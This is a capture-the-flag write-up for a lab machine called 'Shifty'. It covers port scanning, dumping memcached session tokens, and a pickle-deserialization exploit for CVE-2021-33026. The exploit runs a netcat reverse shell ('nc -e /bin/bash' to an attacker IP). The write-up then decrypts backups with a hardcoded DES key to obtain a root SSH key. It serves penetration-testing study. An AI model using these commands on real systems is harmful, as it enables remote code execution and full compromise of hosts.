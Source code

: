 # Shifty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.59 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:57 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
5000/tcp  open   upnp
11211/tcp open   memcache
```

Memcache was open, of all things. I did a detailed `nmap` scan as well:

```
$ sudo nmap -p 80,5000,11211 -sC -sV --min-rate 4000 192.168.202.59           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:58 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      nginx 1.10.3
|_http-generator: Gatsby 2.22.15
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open  http      Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open  memcached Memcached 1.4.33 (uptime 150 seconds)
```

Interesting.&#x20;

### Web + Memcache Enum

Port 80 looked rather static:

<figure><img src="../../../.gitbook/assets/image (2223).png" alt=""><figcaption></figcaption></figure>

There was no public exploit for this software either, so let's move on. Port 5000 looked way more promising:

<figure><img src="../../../.gitbook/assets/image (2148).png" alt=""><figcaption></figcaption></figure>

We can login, and there's no additional functionality with this website. Viewing the requests, we can see that the login just assigned us a token:

<figure><img src="../../../.gitbook/assets/image (3658).png" alt=""><figcaption></figcaption></figure>

Moving to Memcache, we can dump it using `memcdump`. We instantly get loads of tokens:

```
$ memcdump --servers=192.168.202.59
<TRUNCATED>
session:8245fa94-7b27-4d99-a1c3-18a9f9db8e54
session:e90dd194-0be7-41f5-9362-a96431bea058
session:d5b40159-2bc4-4b57-91ae-2839ff3b040e
session:5cd631b0-49ba-4059-aae8-5dbae44f7c43
```

The last one was the same as above. I tried replacing the cookie within the request:

```http
GET /admin HTTP/1.1
Host: 192.168.202.59:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.202.59:5000/login
Connection: close
Cookie: session=hellothere
Upgrade-Insecure-Requests: 1

```

Interestingly, this cookie is stored in Memcached, indicating there's no cookie sanitisation there. Perhaps this could be poisoned?

<figure><img src="../../../.gitbook/assets/image (3353).png" alt=""><figcaption></figcaption></figure>

### Pickling RCE

I googled 'memcache cookie poisoning exploit' and looked at all the results. This repo was one of them:

{% embed url="https://github.com/CarlosG13/CVE-2021-33026" %}

It looked exactly like what I needed. So I tested it after resetting the VPN and the machine.&#x20;

```
$ python3 cve-2021-33026_PoC.py --rhost '192.168.202.59' --rport '5000' --cmd 'nc -e /bin/bash 192.168.45.179 80' --cookie 'session:session=5cd631b0-49ba-4059-aae8-5dbae44f7c43'
 ____ ___ ____ _  ___     _____         
|  _ \_ _/ ___| |/ / |   | ____|        
| |_) | | |   | ' /| |   |  _|    _____ 
|  __/| | |___| . \| |___| |___  |_____|
|_|  |___\____|_|\_\_____|_____|        
                                        
 __  __ _____ __  __  ____    _    ____ _   _ _____ ____   
|  \/  | ____|  \/  |/ ___|  / \  / ___| | | | ____|  _ \  
| |\/| |  _| | |\/| | |     / _ \| |   | |_| |  _| | | | | 
| |  | | |___| |  | | |___ / ___ \ |___|  _  | |___| |_| | 
|_|  |_|_____|_|  |_|\____/_/   \_\____|_| |_|_____|____/  
                                                           
  ____   ___ ___ ____   ___  _   _ ___ _   _  ____  
 |  _ \ / _ \_ _/ ___| / _ \| \ | |_ _| \ | |/ ___| 
 | |_) | | | | |\___ \| | | |  \| || ||  \| | |  _  
 |  __/| |_| | | ___) | |_| | |\  || || |\  | |_| | 
 |_|    \___/___|____/ \___/|_| \_|___|_| \_|\____|
```

We would get a shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (2222).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Encrypted Files -> Root SSH

There was a `backup.py` file within `/opt/backups`:

```python
import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('Usage: {} <file>'.format(sys.argv[0]))
    
    FILENAME = sys.argv[1]
    FILENAME = os.path.abspath(FILENAME)
    print('Backing up "{}"'.format(FILENAME))
    f = None
    try:
        f = open(FILENAME, 'rb')
        backup(FILENAME, f)
    except Exception as e:
        print('Could not open {}'.format(FILENAME))
        print(e)
    finally:
        if f:
            f.close()
```

In the `data` directory, there's also loads of encrypted files:

```
jerry@shifty:/opt/backups/data$ ls
0317ce62a75684cf0fcf8452a7fe5e5e919d1b730644bf16a304a919
11e3e83c5ea13aaed3b3ceb5edd72b9431ebc6ec2c447d412a0b7c7c
1a171f6f6491d3e4ca9cc0ca15a6c508c8815f6e29004bb29c0724d5
1cb607653518c3b1f08b1341322ead36dd8f93c3d2bfa23916fe28bd
1fd8c1281b186594d3d49f38cded4ce40faf862e9d409eb2a3a201cf
25a74de564e2aa81fbb8682f3fef798deda63f4cca65fd58901caecb
31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc
403c9401a0224bd4f483dedb33ed0bf37fbd93881783ea0e600a49ff
5b1c7de10787e87d4d868457b7bf828154f1d02f653f2b57bce17abc
65895ecf8b82b9fa742e8fabde0fd7e60f1258a9e7ba3c1e9367a3e0
7297aeb420d0530ccb52dcb7f905ecc8deffefc32d02691561a9172e
7824132f0f0cc6da1dce3763d50c38c2941d07f9648e34c6c9b9ccf8
8cd58cbefd50ef93f1a3b173456f9b6a09a7318ada378c3a49a980f2
9038291aaa6b222363fc78837b934d1e2f96bb7cfe11fd3d73149e72
92e8127d493e205bfbd8a9c0dd165da2154768cebafa1c752d9bf0dc
dd533e5634f95c6d86a4f37f01453f5326c80e58b8a01f0a4222c011
dfe0444a971a789bb405c54c270ae25460f5699319aad697c7fd35ee
f166b490169e7de5795a09305837198579daad4694e233d49b126d91
```

I made a copy of all these files within my home directory, and began decrypting it using `openssl`. From the python script and based on the documentation for `des`, the key would be `87629ae8` and the IV is all null bytes.&#x20;

Since the key is interpreted as a bytes type object, we need to convert it to hex, which would give `3837363239616538`.&#x20;

Then, we can decrypt the files:

{% code overflow="wrap" %}
```
jerry@shifty:~/backup$ openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in 3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc -out decrypt
```
{% endcode %}

Then, we can bulk decrypt all of these files using a `bash` for loop:

{% code overflow="wrap" %}
```bash
for FILE in *; do openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in $FILE -out decrypt$FILE; rm $FILE; done
```
{% endcode %}

Then, we can read all of the files. Within the decrypted files, there was a SSH private key:

<figure><img src="../../../.gitbook/assets/image (2615).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (1698).png" alt=""><figcaption></figcaption></figure>

Rooted!
